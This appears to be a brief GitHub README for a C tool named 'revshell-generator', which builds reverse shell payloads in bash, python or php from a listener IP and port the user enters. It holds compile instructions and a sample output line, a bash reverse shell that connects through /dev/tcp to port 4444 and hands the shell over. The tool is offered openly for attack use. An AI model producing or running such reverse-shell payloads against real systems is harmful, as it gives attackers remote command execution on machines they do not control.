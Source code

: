 # revshell-generator
A simple  reversepayload generator script 
# compile using any c compiler and run

  gcc sblsec.c -o sblsec

  ./sblsec

# set options
type listener ip and port 
# payload
 select payload option 
(1.bash
 2.python
 3.php ..etc)
 eg : if you need bash hit option number (1)
# output
 sh -i >& /dev/tcp/127.0.0.1/4444 0>&1
